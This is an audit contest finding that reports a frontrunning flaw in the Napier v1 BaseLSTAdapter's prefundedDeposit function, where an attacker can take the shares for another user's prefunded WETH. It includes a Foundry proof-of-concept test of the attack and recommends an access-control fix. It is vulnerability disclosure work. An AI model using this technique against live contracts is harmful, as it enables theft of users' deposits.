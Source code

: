 Fit Tin Chipmunk

medium

# Prefunded deposits to children of `BaseLSTAdapter` could be lost and shares stolen

## Summary
Transfers of underlying token (WETH) to `BaseLSTAdapter`'s child contracts (`StEtherAdapter`, `SFrxETHAdapter`) could be lost and shares could be stolen by an arbitrary sender who invokes the `prefundedDeposit` function.

## Vulnerability Detail
The design of the `prefundedDeposit` function implies that the caller should first transfer some amount of the underlying token and after that call the `prefundedDeposit` function within the same transaction, similarly to how it is done in the `Tranche` contract:

https://github.com/sherlock-audit/2024-01-napier/blob/6313f34110b0d12677b389f0ecb3197038211e12/napier-v1/src/Tranche.sol#L206-L208

However if the `prefundedDeposit` function is not invoked within the same transaction, it could be either called by another user or frontrun by an attacker. This way the attacker will steal the shares in the adapter contract, as there aren't any deposit ownership checks or accounting present in the `prefundedDeposit` function.

https://github.com/sherlock-audit/2024-01-napier/blob/main/napier-v1/src/adapters/BaseLSTAdapter.sol#L71-L139

## Impact
Users could lose their WETH deposits to the adapter and not receive shares in return.

## Code Snippet
https://github.com/sherlock-audit/2024-01-napier/blob/main/napier-v1/src/adapters/BaseLSTAdapter.sol#L71-L139

## PoC

Add the following test in the `napier-v1/test/unit/adapters/BaseTestLSTAdapter.t.sol` test and run it by using:

```bash
forge test -vvv --match-test testPrefundedDeposit_WhenUserDepositsUnderlyingInSeparateTransaction_ThenUserGetsFrontrunByAttackerAndLosesFunds
```

```solidity
    function testPrefundedDeposit_WhenUserDepositsUnderlyingInSeparateTransaction_ThenUserGetsFrontrunByAttackerAndLosesFunds()
        public
        virtual
    {
        // GIVEN
        deal(address(underlying), address(user), 1 ether);
        assertEq(underlying.balanceOf(address(user)), 1 ether);

        address attacker = makeAddr("attacker");
        assertEq(underlying.balanceOf(address(attacker)), 0);

        // WHEN
        vm.startPrank(user);
        underlying.transfer(address(adapter), 1 ether);
        vm.stopPrank();

        assertEq(underlying.balanceOf(address(user)), 0);
        assertEq(underlying.balanceOf(address(adapter)), 1 ether);

        // THEN
        vm.startPrank(attacker);
        // The user's call to adapter's `prefundedDeposit` function is actually frontrun by an attacker
        (uint256 underlyingUsed, uint256 sharesMinted) = adapter.prefundedDeposit();
        vm.stopPrank();

        assertEq(underlyingUsed, 1 ether);
        assertEq(sharesMinted, target.balanceOf(attacker));
        assertTrue(sharesMinted > 0);
        assertEq(target.balanceOf(user), 0); // User doesn't receive any shares and thus loses deposited assets.
    }
```

## Tool used

Manual Review

## Recommendation
If the `BaseLSTAdapter` and its children (`StEtherAdapter`, `SFrxETHAdapter`) is indeed expected to be used only by the `Tranche` contract, make the `prefundedDeposit` callable only by the `Tranche` contract via a modifier e.g.:

```solidity
   function prefundedDeposit() external onlyTranche nonReentrant returns (uint256, uint256) {
```